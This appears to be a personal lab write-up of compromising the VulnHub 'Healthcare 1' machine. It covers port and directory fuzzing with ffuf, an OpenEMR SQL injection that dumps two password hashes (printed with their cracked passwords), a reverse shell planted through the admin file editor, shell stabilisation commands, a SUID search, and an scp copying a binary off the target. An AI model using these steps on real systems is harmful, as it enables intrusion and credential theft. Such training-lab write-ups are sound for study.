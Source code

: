 ## recon
nmap showed port 80 and 21 were open 

![[Pasted image 20230623103636.png]]

let's see what's there on port 80:
we get the version and the server running i.e apache 2.2.17
look for vuln in this version , we also get some disallowed entries in the robots.txt where `/admin` is one of them , title is a bit cheesy 
***
## Port 80
the website looks like this:
![[Pasted image 20230623104412.png]]
there's a timer saying coming soon
and when we put out email into it we get this error when we don't give the right format so there is some kind of front-end verification:
![[Pasted image 20230623105012.png]]
***
### Fuzzing
after bruteforcing with ffuf -> when used the `big.txt` for files of seclist we get:
```
  2   │         "FUZZ": "addon-modules"  
  3   │         "FUZZ": ".htaccess"  
  4   │         "FUZZ": ".htpasswd"  
  5   │         "FUZZ": "css"  
  6   │         "FUZZ": "cgi-bin/"  
  7   │         "FUZZ": "favicon"  
  8   │         "FUZZ": "favicon.ico"  
  9   │         "FUZZ": "fonts"  
 10   │         "FUZZ": "gitweb"  
 11   │         "FUZZ": "images"  
 12   │         "FUZZ": "index"  
 13   │         "FUZZ": "js"  
 14   │         "FUZZ": "phpMyAdmin"  
 15   │         "FUZZ": "robots"  
 16   │         "FUZZ": "robots.txt"  
 17   │         "FUZZ": "server-status"  
 18   │         "FUZZ": "server-info"  
 19   │         "FUZZ": "vendor"
```
most of them which are 403 
so I also try one wordlist for directory also: `directory-list-2.3-big.txt` , a better practice to widen out our surface

```
ffuf -ic -c -u 'http://192.168.29.9/FUZZ' -e / -w /home/vidhyadhar/Desktop/siddh_16_march_2023/siddharth/lord_of_the_strings/seclist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 -fc 403 | tee -a healthcare1.ffuf
```

we  get this list:
```
   * FUZZ:    
   * FUZZ: /  
   * FUZZ: index  
   * FUZZ: images  
   * FUZZ: css  
   * FUZZ: js  
   * FUZZ: vendor  
   * FUZZ: favicon  
   * FUZZ: robots  
   * FUZZ: fonts  
   * FUZZ: gitweb  
   * FUZZ:    
   * FUZZ: /  
   * FUZZ: openemr  
   * FUZZ: openemr/
```

look at this endpoint: `openemr` , we visit it , looks like this , exposing it's version
![[Pasted image 20230623113146.png]]
search for it and we get it is vulnerable to sqli:
![[Pasted image 20230623113319.png]]

we download the exploit and change the url to our endpoint:
we get two users and their hash:
```
admin : 3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical : ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

hail!!! crackstation :
![[Pasted image 20230623120146.png]]
`ackbar` and `medical`

we go inside the admin panel:
![[Pasted image 20230623120308.png]]
now we need to somehow get this to reverse shell
inside the administration section we find files and inside it config.php and a custom_pdf.php:
![[Pasted image 20230623120459.png]]

and after calling the url:
`http://192.168.29.9/openemr/sites/default/letter_templates/custom_pdf.php`

we get the shell
after doing `whoami` we get we have the shell of apache

we stabilize the shell :
***
step 1:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

step 2:
do `ctrl+z` your main system terminal should have opened and then write this:
```
stty raw -echo; fg
```

then press `enter` two times , your terminal for the machine should be back , also type this to get some env variables like clear in that machine:
```
export TERM=xterm
```
***
and we get the users.txt flag:
![[Pasted image 20230623132303.png]]

## Privelage escalation
the first step is to look for any binary that we can have enough permissions to run as root so that we can escalate privelages
`find / -perm -4000 -ls 2>/dev/null`


![[Pasted image 20230623140024.png]]

looks cheesy right?!!
let's try and run , it says scanning system
it does so much , getting binary , checking network and all , let's get this file to our pc via scp:
```
scp /usr/bin/healthcheck user@ip:/home/user/
```



### Other writeups
[#]one of the best post-exploit enum:
```
https://benheater.com/vulnhub-healthcare-1/
```

[#] this one's good too:
```
https://blog.ikuamike.io/posts/2021/healthcare1/
```



